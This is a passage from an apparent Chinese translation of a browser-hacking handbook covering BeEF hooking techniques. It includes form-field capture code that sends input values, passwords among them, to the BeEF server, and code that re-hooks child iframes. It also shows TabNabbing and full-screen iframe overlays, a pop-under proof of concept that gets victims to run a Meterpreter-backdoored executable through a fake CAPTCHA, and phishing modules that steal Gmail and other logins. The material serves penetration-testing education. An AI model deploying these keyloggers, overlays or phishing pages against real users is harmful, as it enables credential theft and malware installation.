-   为了应对各种键盘布局、格式、语言和其他国际化差异，DOM 通过事件数据属性 key 和 char 定义键盘值。这些属性基于 Unicode，从而支持国际化。char 值保存键的打印表示。如果按下的键没有打印表示，则包含空字符串。

-   另一方面，key 值包含 — 你猜对了 — 键值。如果按下的键有非空的 char 值，则 key 和 char 会匹配。如果键没有打印表示（例如 Alt 键），则 key 值将从预定义的键值集合中确定。该集合由 W3C 在 [`www.w3.org/TR/DOM-Level-3-Events/#key-values-list`](http://www.w3.org/TR/DOM-Level-3-Events/#key-values-list) 文档化。

-   同一 W3C 规范还定义了以下选择和定义 key 值的指南：

*   如果按下的键的功能是生成可打印字符，且键值集合中存在有效字符，则：

*   key 属性必须是键值的字符串。

*   char 属性必须是字符的字符串。

*   如果键值集合中没有有效字符，则：

*   key 属性必须是字符的字符串。

*   char 属性必须是字符的字符串。

*   如果按下的键是功能键或修饰键，且键值集合中存在有效字符，则：

*   key 属性必须是键值的字符串。

*   char 属性必须是空字符串。

*   如果键值集合中没有有效字符，则必须创建键值。

-   大部分规范集中在 key 和 char 值上。虽然许多实现仍依赖于较少文档化且现已废弃的 keyCode 和 charCode 属性。旧规范还包含了 which 属性，是一个实现特定的键盘按键代码标识，通常与 keyCode 相同。

-   你可能注意到在前面的代码片段中，提交的字符属性使用了 event.which 变量。jQuery 会覆盖该属性，从而提供一个标准化的方法来收集按键的 Unicode 等效值。

-   跨浏览器的键盘事件实现相当不一致。Jan Wolter 发表了题为 “JavaScript Madness: Keyboard Events.” 的研究。这些差异主要归因于浏览器之争。例如，keyCode 最初在 Internet Explorer 中可用，而 which 则在 Firefox 等其他浏览器中可用。

-   无论浏览器内部如何处理这些事件，编写监控 keystrokes 的例程始终是有效的工具。使用 JavaScript 捕获这些事件并将其发送回你本人，很可能会揭示各种信息。如果在正确的时机捕获，甚至可能包括敏感信息，如用户密码或支付详情。

-   **使用鼠标和指针事件**

-   另一个由 DOM 提供的事件类型是鼠标和指针事件。正如你所期待的，这些事件与 DOM 中的鼠标（或轨迹球）交互相关。指针事件本质上相同，但由没有鼠标的设备（如智能手机和平板）触发。类似于跟踪 DOM 中元素的焦点，捕获这些事件可以让攻击者有效监控 DOM 内的所有鼠标移动和点击，如果操作得当，甚至可以监控页面外的内容。

-   在线键盘（虚拟键盘）是一种偶尔用于阻止键盘记录的技术，例如在在线银行门户输入密码时。通过为鼠标事件附加自定义逻辑，攻击者可能会跟踪鼠标游标的 x 和 y 坐标以及鼠标按钮的点击。这将可能允许重新创建密码，尽管从未触碰键盘。

-   除了监控鼠标事件外，还公布了许多其他技术来绕过银行使用的虚拟键盘保护。其他技术包括截图和使用 Win32 API 访问包含虚拟键盘的 HTML 文档。

-   下面是一个示例，展示了每次用户在文档内点击时调用的事件处理函数：

```javascript
document.addEventListener("click",function(event) {
  alert("X: "+event.screenX+", Y: "+event.screenY);
});
```

-   这段 JavaScript 为鼠标点击事件添加了一个函数，显示一个提示框，其中包含鼠标位置相对于显示文档的屏幕像素的 x 和 y 坐标。除了 screenX 和 screenY 变量外，事件还传递了 clientX 和 clientY 变量，这些变量提供了相对于可见视口的指针位置的 x 和 y 坐标。

-   视口与屏幕像素略有不同，因为视口的大小不会改变，始终代表浏览器中显示的可视窗口。Figure 5-1、Figure 5-2 和 Figure 5-3 分别展示了屏幕坐标、客户端坐标和页面坐标。

-   开始图 5-1

**Figure 5-1:** 屏幕坐标



-   结束图 5-1 开始图 5-2

**Figure 5-2:** 客户端坐标



-   结束图 5-2 开始图 5-3

**Figure 5-3:** 页面坐标



-   结束图 5-3

-   利用 jQuery（如下面的代码片段所示）也可以获得 pageX 和 pageY 变量，这些变量是相对于 <HTML> 标记开始处的相对坐标：

```javascript
$j(document).click(function(event) {
  alert("X: "+event.pageX+", Y: "+event.pageY);
}
```

-   除了简单的点击事件外，鼠标事件类型还包括：

*   mousemove—鼠标移动到元素上。

*   mouseover—鼠标移动到元素的边界。

*   mouseenter—类似于 mouseover，但不冒泡到父元素。

*   mouseout—鼠标离开元素的边界。

*   mouseleave—类似于 mouseout，但不冒泡到父元素。

*   mousedown—鼠标按钮在元素上按下。

*   mouseup—鼠标按钮在元素上释放。


BeEF 的事件日志 默认情况下，BeEF 会自动记录本章中描述的所有事件类型。Figure 5-4 向您展示了多个键盘和鼠标事件的记录：开始图片  

**Figure 5-4:** BeEF 中记录的键盘和鼠标事件  

 结束图片  

* * *

  end feature  

如果您能够控制 DOM，那么没有任何阻碍可以捕获所有鼠标事件类型，从而可能让您查看并记录鼠标光标在网站上的移动路径。DOM 还暴露了滚轮事件类型，因此您可以跟踪用户使用滚轮向上和向下滚动页面的情况。将这些事件组合在一起，技术上完全可以重建并监控用户在挂钩页面内执行的每一个操作。  

## 使用表单事件  

除了为所有键盘事件附加处理函数外，BeEF 还为所有 `<form>` 元素附加自定义逻辑。利用 jQuery 的元素选择器，以下代码在当前 DOM 中为所有表单元素附加 `beef.logger.submit()` 函数：  

```
$j('form').submit(
  function(e) { beef.logger.submit(e); }
);
```  

`beef.logger.submit()` 函数会遍历正在提交的表单，捕获所有表单输入字段及其值（包括隐藏字段），并将这些值发送回 BeEF 服务器：  

```
/**
 * Submit function fires whenever a form is submitted
 */
submit: function(e) {
  try {
    var f = new beef.logger.e();
    var values = "";
    f.type = 'submit';
    f.target = beef.logger.get_dom_identifier(e.target);
    for (var i = 0; i < e.target.elements.length; i++) {
      values += "["+i+"]";
      values +=e.target.elements[i].name;
      values +="="+e.target.elements[i].value+"\n";
    }
    f.data = 'Action: '+$j(e.target).attr('action');
    f.data += ' - Method: '+$j(e.target).attr('method');
    f.data += ' - Values:\n'+values;
    this.events.push(f);
  } catch(e) {}
}
```  

`beef.logger.e` 类定义了一个简单的事件结构，使得由鼠标或键盘生成的不同类型事件能够以统一的方式提交回 BeEF 服务器。函数中间的 for 循环遍历表单的子元素。请注意，前面的代码并未考虑 disabled 属性在表单字段中的情况。  

## 使用 Iframe 键盘记录  

将日志函数附加到当前 DOM 不仅局限于当前窗口。在同源策略（SOP）的约束下，JavaScript 可以将自身挂钩到其他 Iframe 里。DOM 通过其 `frames` 对象暴露当前文档中的所有帧。  

在 BeEF 实例化其 DOM 日志功能时，会遍历当前 DOM 中的帧，尝试在与当前挂钩来源同源的 Iframe 中重新挂钩每个子 Frame。随后，对任何已挂钩的子 Frame，这些 Frame 将包含 DOM 事件日志功能。执行此任务的函数是 `beef.browser.hookChildFrames()`，如下代码所示：  

```
/**
 * Hooks all child frames in the current window
 * Restricted by same-origin policy
 */
hookChildFrames:function () {

  // create script object
  var script  = document.createElement('script');
  script.type = 'text/javascript';
  script.src  = '<%== @beef_proto %>://<%== @beef_host %>:
    <%== @beef_port %><%== @hook_file %>';

  // loop through child frames
  for (var i=0;i<self.frames.length;i++) {
    try {
        // append hook script
        self.frames[i].document.body.appendChild(script);
    } catch (e) {
    }
  }
}
```  

该函数的第一部分创建新的 BeEF 挂钩脚本元素，最后部分遍历所有帧并尝试将脚本追加到子 Frame 的 body 中。  

除了自动挂钩所有子 Frame 外，BeEF 还提供一个独立的命令模块，实现类似功能。该模块名为“IFrame Event Logger”，适用于需要在当前窗口上方弹出一个覆盖 Iframe，并记录键盘输入但不一定需要完整 BeEF 挂钩的场景。  

在这一节中，您已经探索了作为攻击者可以拦截的多种事件处理例程，以监控用户的行为。随着浏览器不断引入新特性，新的事件处理机制也会随之出现。例如，移动设备的普及促使 W3C 引入触摸事件。随着流行浏览器 DOM 的不断演进，监控和攻击面会随之扩大。  

# 社交工程  

在第 2 章中，您已经体验了社交工程作为在目标浏览器中执行初始控制代码的有效方法。社交工程不必在此结束！您可以利用多种社交角度，进一步巩固对浏览器会话的控制。  

有时最简单的方法就是直接提问。在合法浏览会话中，精心构造的社交工程诱饵对许多用户来说很难避免。这些诱饵形式多样，包括假软件更新、假登录提示，甚至恶意插件提示。  

下面的章节讨论的技术大多超出浏览器范围，特别是那些诱使受害者运行可执行文件的技术。在系统可能已被补丁且安全的情况下，最简便的方法是利用用户的信任。  

## 使用 TabNabbing  

本章前面，您已经了解了通过 DOM 中的事件处理进行劫持的强大功能。一旦您理解用户如何与特定页面交互，就可以在用户不在当前窗口时进行操作。由于现今广泛使用的标签页，用户可能会在不同标签之间切换。一旦您捕获 blur 事件，就能轻松监测用户离开挂钩窗口的时间长度。下面的代码演示了此功能：  

```
var idle_timer;
begin_countdown = function() {
  idle_timer = setTimeout(function() {
    performComplicatedBackgroundFunction();
  }, 60000);
}
$j(window).blur(function(e) {
  begin_countdown();
}
$j(window).focus = function() {
  clearTimeout(idle_timer);
}
```  

这段代码定义了 `idle_timer` 变量和 `begin_countdown` 函数。执行后，`idle_timer` 会设置一个定时器，使得 60 秒后 `performComplicatedBackgroundFunction()` 被触发。该函数在窗口的 blur 事件中被调用。为了在用户返回标签页时停止计时器，`focus` 事件也被修改为清除定时器。  

TabNabbing 攻击的核心思想（最初由 Aza Raskin 提出）是改变您已控制的非活动标签的内容或位置。BeEF 的“TabNabbing”命令模块几乎包含完全相同的逻辑。默认情况下，该模块接受用户提供的两个参数：定时器等待时间以及重定向的 URL。此外，您还可以使用 `beef.browser.changeFavicon()` 函数更改网站的 favicon，以提升攻击效果。  

TabNabbing 攻击的一个典型用法是，将非活动标签的 URL 更改为 BeEF “Social Engineering”扩展（见第 2 章“使用社交工程攻击”部分）中克隆的网站 URL。这样，浏览器仍然保持对 BeEF 的挂钩，同时可以显示一个凭证采集页面。  

## 使用全屏  


Full 屏幕攻击是一种很好的方法，用来让目标陷入一种安全感的假象。这些攻击最初在第三章的“全浏览器框架重叠”章节中介绍，但可以扩展，特别是在已经钩取的网页上下文中。

一种细微的方法是欺骗当前被钩住的受害者，使其保持浏览器的钩住状态，方法是重写当前 DOM 中的所有链接，使其在全尺寸的 IFrames 中加载。下面的代码片段来自第三章，将被重新用于创建全屏 IFrames：

``` 
createIframe: function(type, params, styles, onload) {
  var css = {};
  if (type == 'hidden') { 
    css = $j.extend(true, {
      'border':'none', 'width':'1px', 'height':'1px',
      'display':'none', 'visibility':'hidden'},
    styles);
  }
  if (type == 'fullscreen') { 
    css = $j.extend(true, {
      'border':'none', 'background-color':'white', 'width':'100%',
      'height':'100%',
      'position':'absolute', 'top':'0px', 'left':'0px'},
    styles); 
    $j('body').css({'padding':'0px', 'margin':'0px'});
  }

  var iframe = $j('<iframe />').attr(params).css(css).load(onload).
    prependTo('body');

  return iframe;
}
```

jQuery 的选择器的强大再次发挥作用，提供了一个简单的方法来遍历当前 DOM 中每个锚标签：

``` 
$j('a').click(function(event) {
  if ($j(this).attr('href') != '') {
    event.preventDefault();
    beef.dom.createIframe('fullscreen',
      {'src':$j(this).attr('href')},
      {},
      null
    );
    $j(document).attr('title',$j(this).html());
    document.body.scroll = "no";
    document.documentElement.style.overflow = 'hidden';
  }
});
```

对当前选定的 DOM 中的每个链接执行以下操作：

Level1 **1.** 第一个 if 语句判断当前链接是否包含 HREF 属性；只有包含 HREF 的链接会被脚本覆盖。 **2.** 调用 preventDefault() 函数，阻止事件处理沿着事件处理链继续。 **3.** 调用 createIframe() 函数，创建一个全屏 IFrames，源设置为链接的 HREF 属性。 **4.** 更新当前钩住页面的标题，使其与锚标签内的内容相同。例如，如果链接是 <a href="http://beefproject.com">BeEF Project</a>，当前页面的标题将更新为“BeEF Project”。 **5.** 禁用当前文档的滚动，并将文档的 overflow 样式设置为 hidden，以尝试隐藏底层内容。

/Level1

执行完上述操作后，所有链接看起来都没有改变。但是，如果点击这些链接，会在当前 DOM 上方加载一个 IFrames，欺骗用户以为一切正常，尽管内容被约束在 IFrames 中。正如你在早期章节中学到的，用户可能会察觉到这种操纵，但他们必须非常仔细地观察。

Figure 5-5 展示了一个被钩住的页面，所有链接都被重写；如图中高亮所示，目标 URL 仍然显示在状态栏中。Figure 5-6 展示点击链接后的情况；地址栏保持与之前钩住的页面相同，而页面标题被设置为链接的名称。如果你访问 [`beefproject.com`](http://beefproject.com)，你会发现实际标题是“BeEF — The Browser Exploitation Framework Project”。

 start figure 

**Figure 5-5:** 重写后的链接



 end figure   start figure 

**Figure 5-6:** 全屏 IFrames



 end figure 

上述逻辑位于 BeEF 的“创建前景 IFrames”模块中。如果你是急躁的类型，可以更直接地强制加载 IFrames。为了最大限度地减少被目标检测到的可能性，你可以利用 BeEF 的事件日志，等待目标离开钩住页面后再打开 IFrames。这在 Figure 5-7 中演示。当目标离开后，可以执行“重定向浏览器（IFrames）”模块来打开一个新的全屏 IFrames。另一种避免检测的技巧是加载相同的页面在 IFrames 中——这样用户会继续浏览，而不会察觉自己被困在一个窗口中。

 start figure 

**Figure 5-7:** BeEF 事件查看器等待模糊事件


 end figure 

一种更高级的全屏攻击利用了 HTML5 Fullscreen API 的强大。大多数浏览器都有选项以全屏显示内容，例如在 Windows 的 Internet Explorer 中点击 F11。得益于 HTML5 Fullscreen API，这种操作可以在浏览器内部编程化地执行。这是 YouTube 用来显示全屏视频的机制之一。

Feross Aboukhadijeh 使用 HTML5 Fullscreen 功能演示了更高级的网络钓鱼方式。你可以阅读 Aboukhadijeh 的攻击描述：[`feross.org/html5-fullscreen-api-attack/`](http://feross.org/html5-fullscreen-api-attack/)。总结如下：

Level1 **1.** 向当前页面添加新的隐藏 HTML 元素，以冒充受害者的操作系统和浏览器。 **2.** 根据受害者的操作系统和浏览器动态调整这些元素的样式。 **3.** 修改钩住链接的点击处理程序。在 Aboukhadijeh 的示例中，他修改了指向 [`www.bankofamerica.com`](https://www.bankofamerica.com) 的链接，点击该链接后执行以下操作：

/Level1

Level2 **1.** 阻止默认操作和事件处理。 **2.** 进入全屏模式。 **3.** 将之前隐藏的 HTML 元素的可见性设为可见。 **4.** 在主 HTML 元素中填充伪造内容。在 Aboukhadijeh 的示例中，这是实际 Bank of America 网站的截图。

由于浏览器的不一致性，进入全屏模式的代码在不同浏览器之间略有差异。以下是处理方法：

``` 
function requestFullScreen() {
  if (document.documentElement.requestFullscreen) {
    document.documentElement.requestFullscreen();
  } else if (document.documentElement.webkitRequestFullScreen) {
    document.documentElement.webkitRequestFullScreen(
     Element.ALLOW_KEYBOARD_INPUT);
  } else if (document.documentElement.mozRequestFullScreen) {
    document.documentElement.mozRequestFullScreen();
  } else {
    /* can't go fullscreen */
  }
}
```

或者，Sindre Sorhus 编写了一个跨浏览器的 JavaScript 库，同样可以使用。注意，虽然你可以编程控制在全屏中打开的站点，但浏览器仍会显示警告对话框，如 Figure 5-8 所示：

 start figure 

**Figure 5-8:** 全屏警告


 end figure 

如何减少用户怀疑被伪造全屏显示的可能性？尝试在你控制的域名上加载框架，并使用一个与原始站点名称非常相似的名称。理想情况下，如果新域名只与原始域名略有不同，警告对话框和加载的网站看起来几乎相同。

## 滥用 UI 期望


大多数浏览器已从弹窗通知转为无模式通知，用于文件下载、插件激活和 HTML5 特权 API 调用。Safari 是当时唯一的例外，仍然使用弹窗通知。无模式通知的概念（如 Figure 5-9 所示）是不中断当前网页导航的情况下告知用户某事，即提升可用性而不困扰用户。

 start figure 

**Figure 5-9:** Modeless notification examples


 end figure 

Rosario Valotta 在 Hack In The Box 2013.17 发表了关于如何在多个浏览器中滥用这些无模式对话框的研究。首先，如前文所述，无模式通知很容易伪造。只需几行 JavaScript 和 CSS，就能显示 Chrome 或 Internet Explorer 在下载可执行文件时会显示的相同内容。Rosario 还指出了无模式通知的四个主要问题：

*   即使窗口在后台（例如弹下窗口或次要窗口），无模式通知仍会显示。

*   通知栏支持键盘快捷键。根据浏览器语言，你可以通过快捷键 Alt+R（Run，英文 OS）或 Alt+E（Esegui，意大利语 OS）来执行可执行文件。

*   可以使用 Tab 键导航通知栏，意味着可以在“运行”按钮、保存或取消之间切换。

*   无模式通知绑定到导航窗口，因此它们会随导航窗口一起在屏幕上移动、缩放并随窗口关闭。

你可能已经注意到这些无模式对话框的潜在安全问题。事实上，利用这些对话框的行为，只需诱使用户输入一键即可在 Internet Explorer 中运行可执行文件，完全绕过任何通知或用户确认。

同样，在 Google Chrome 中也可以通过诱使用户仅点击一次来实现。下面详细分析如何在 Internet Explorer 中实现这一过程。以下是 Rosario 原始“Proof of Concept”代码的修改版以及相关截图。

结合上述四点关于无模式对话框的描述，你可以在使用 Internet Explorer 9 或 10 并在 Windows 7 上的用户身上发动如下攻击：

Level1 **1.** 使用 jQuery pop-under（第 3 章已介绍）弹出一个后窗口。 **2.** 后窗口发起下载一个合法的可执行文件（例如带有 Metasploit Meterpreter 后门的合法可执行文件），该文件执行后会自动尝试连接 browserhacker.com。 **3.** 无模式通知被触发，但因后窗口正好位于当前浏览器窗口的正后方而被隐藏在用户视线之外。 **4.** 后窗口仍在后台，但已拥有焦点，意味着任何键盘输入都会发送到后窗口。 **5.** 你可以利用社交工程技巧诱使用户输入 R、空格或回车，这些键的效果等同于在无模式对话框中点击“运行”按钮，从而实现代码执行，无需任何通知或用户确认。

/Level1

实现此巧妙攻击的代码如下：

```
<!DOCTYPE html>
<html>
<head>
<!-- with IE9, the focus of the pop-under is on the 
 notification bar, which facilitates the attack -->
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
</head>
<body>
<h2>Private Forum
<br>
<h3>Click the button to start registration
<div>
 <button onclick="loadpopunder()">Start</button>
</div>
<script>
function loadpopunder(){
  win3=window.open('popunder.html','',
  'top=0, left=0,width=500,height=500');
  win3.blur();
  document.write("Loading...");
  document.location="captcha.html";
  doit();
}   
function doit(){
  win3=window.open('popunder.html','',
  'top=0, left=0,width=500,height=500');
  win3.blur(); 
}
</script>
</body>
</html>
```

当用户点击“Start”按钮时，loadpopunder() 函数会被触发，弹出后窗口加载 popunder.html 页面，包含如下代码：

```
<!DOCTYPE html>
<html>
<head>
 <meta charset="utf-8" />
 <!-- with IE9, the focus of the pop-under is on the 
 notification bar, which facilitates the attack -->
 <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
 <title>Exploit Demo</title>
</head>
<body style='height: 1000px' >
<iframe id="f1" width="100" height="100"></iframe>
<script type="text/javascript">
 document.getElementById("f1").src="malicious.exe";
</script>    
</body>
</html>
```

由于后窗口位于活动浏览器窗口的正后方，用户不会注意到这一点。同时，JavaScript 动态修改 iframe 的 src 以触发可执行文件的下载，同时将当前页面的位置改为 captcha.html：

```
<!DOCTYPE html>
<html>
<head>
<!-- with IE9, the focus of the pop-under is on the 
 notification bar, which facilitates the attack -->
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
</head>
<body>
<h2>To proceed with registration we need 
 to verify you are not a bot...
<br>
<h3>Type the text shown below:</h3>
</img>
</img>
</body>
</html>
```

假装的验证码提示正是你用来让受害者输入你想要的键（在此例中为 R 键，假设操作系统为英文）的手段。Figure 5-10 和 Figure 5-11 展示了用户按下 R 键（即假验证码图像中的第一个字符）时的情况：

 start figure 

**Figure 5-10:** 当用户被诱导按下 R 键后，程序将运行。


 end figure   start figure 

**Figure 5-11:** 安装随即自动进行。


 end figure 

为了使默认焦点落在通知栏，前面的代码包含了 meta 标签，使 IE 渲染为 IE 7。渲染为 IE 7 后，浏览器会自动将焦点设为通知栏（IE 7 原本如此）。这意味着不再需要 Tab+R，只需按 R 键即可执行二进制文件，这一简单改动提升了攻击的成功率。

此攻击技术的两大局限是：用户访问控制（UAC）18 和 SmartScreen 过滤器。19 UAC 不是大问题，因为它仅在需要管理员权限运行可执行文件时触发。Meterpreter 后门可执行文件通常不需要此类权限。第二，SmartScreen 过滤器于 Internet Explorer 8 引入，是基于声誉的控制，用于在用户未先确认的情况下阻止潜在危险的可执行文件运行。Figure 5-12 展示了 SmartScreen 过滤器的几个示例：

 start figure 

**Figure 5-12:** SmartScreen Filter in action


 end figure 

与大多数基于声誉的检查相比，SmartScreen 并非 100% 可靠。根据 Valotta 的研究，20% 的在 Twitter 上发布的缩短链接（也称为 exetweets）指向可执行文件，能够绕过 SmartScreen。此外，如果你能用 Symantec Extended Validation 签名证书签署可执行文件，SmartScreen 会立即将其视为有效，而无需对该文件或发布者的先前声誉。20

### 使用假登录提示


如果你已经监听键盘事件，你可能会想，为什么还要通过其他方式获取用户名和密码。毕竟，你已经能看到所有的键盘输入了，对吗？捕获 DOM 关键字事件的有效性完全取决于钩子在应用程序中的位置。

例如，如果初始钩子是通过 Web 应用程序登录页面的 XSS 漏洞注入的，那么监听 DOM 关键字事件可能会泄露用户的用户名和密码。遗憾的是，这并非总是如此；在很多情况下，你可能只能在用户已认证之后才将钩子注入浏览器。当然，此时你可能能够获取当前会话 Cookie，甚至使用 BeEF 的 Tunneling Proxy 利用该会话，但这并不能让你轻松在后续阶段登录该应用程序。

除了能够冒充不懂情况的用户重新认证之外，获取用户密码的副本也带来其他好处。密码复用是依赖单因素、基于密码的认证系统的核心问题。在这种情况下，如果你能获取用户的密码，你可能会利用该秘密在多个系统上冒充该用户。

这些网络钓鱼攻击的影响在一定程度上取决于初始钩子的上下文。遗憾的是，大多数用户仍会在所有警报响起的同时提交他们的信息。这也是传统网络钓鱼诈骗仍然能够有效获取银行凭据的部分原因。如果你能让足够多的人访问该网站，你仍然可以骗几个人透露他们的敏感信息。

使用 JavaScript 的 prompt() 函数在用户的浏览会话中加载一个假登录提示非常简单，如下所示：

```
var answer = prompt("Your session has expired. 
  Please re-enter your password:");
```

执行后，会出现一个对话框，类似于 Figure 5-13。

 start figure 

**Figure 5-13:** Prompt dialog box


 end figure 

answer 变量随后可以提交回攻击者，但使用这种方法并不高效。对话框显然位置不当，且未与原始网站品牌化，同时你会发现该输入框不会像大多数密码对话框那样遮盖输入字符。

### Pretty Theft

当然，如果你能在当前钩子的源域中插入任意内容，那么你就没有理由不能显示一个更逼真的登录对话框。这就是 BeEF 中的“Pretty Theft”模块所做的事。

该模块提供了一系列预设的网络钓鱼模板，包括针对以下常见服务的模板：

*   Facebook

*   LinkedIn

*   YouTube

*   Yammer

对于其他情况，该模块还提供一个通用模式，允许在对话框中插入自定义图片。

该模块使用类似的深色模态对话框，并在执行后启动一个定时器，持续检查用户名和密码提示的更新。Figure 5-14 展示了该模块在通用模式下的样子，而 Figure 5-15 展示了该模块在 Facebook 模式下的样子。你可以在 [`browserhacker.com`](https://browserhacker.com) 查看完整的模块代码。

 start figure 

**Figure 5-14:** Pretty Theft module in generic mode


 end figure  start figure 

**Figure 5-15:** Pretty Theft module in Facebook mode


 end figure 

### Gmail Phishing

另一个显然是这些动态嵌入式网络钓鱼诈骗的热门目标是 Gmail。截至 2012 年 6 月，Google 的邮件服务被认为是最流行的网络邮件平台，超过了当时的 Hotmail，达到惊人的 4.25 亿用户，而 Hotmail 当时仅有 3.6 亿用户。21 如此多的用户意味着巨大的攻击面，因此“Gmail Phishing”模块应运而生。该 BeEF 模块由 @floyd_ch 开发，与早前的模块类似，但其执行方式略有不同。首次执行时，模块会执行以下操作：

```
document.title = "Google Mail: Email from Google";
beef.browser.changeFavicon("https://mail.google.com/favicon.ico");
logoutGoogle();
displayPhishingSite();
```

网络钓鱼是通过更新当前文档的标题，然后更新图标为 Google 的 favicon.ico 文件来实现的。logoutGoogle() 函数会启动一个无限循环，持续请求 Google 的注销函数，该函数缺乏 XSRF 防护机制，因此会在没有任何质疑的情况下注销当前已登录用户。这将在用户已登录时将其注销，或者如果用户尝试在其他地方登录则保持其注销状态。displayPhishingSite() 函数随后会将当前 document.body 元素重置为网络钓鱼内容，如 Figure 5-16 所示。

 start figure 

**Figure 5-16:** Gmail Phishing


 end figure 

当目标将其数据输入登录提示时，模块会将凭据发送回 BeEF 服务器，尝试打开一个新窗口并再次钩住 BeEF，最后将用户重定向回 Google 登录页面。由于之前的注销功能，目标会看起来像是在同一页面上（即网络钓鱼内容）重新输入凭据，仿佛第一次输入错误一样。以下代码片段展示了该逻辑：

```
window.open(http://browserhacker.com/rehook.html);
window.focus();
window.location = "https://accounts.google.com/ServiceLoginAuth";
```

你可以在 [`browserhacker.com`](https://browserhacker.com) 或维基网站 [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook) 查看该模块的完整代码。

### 使用假软件更新

在攻击目标组织时，你通常需要跳出浏览器的范围，直接针对目标计算机进行攻击。为了获得立足之地，你可能需要先利用目标的信任。

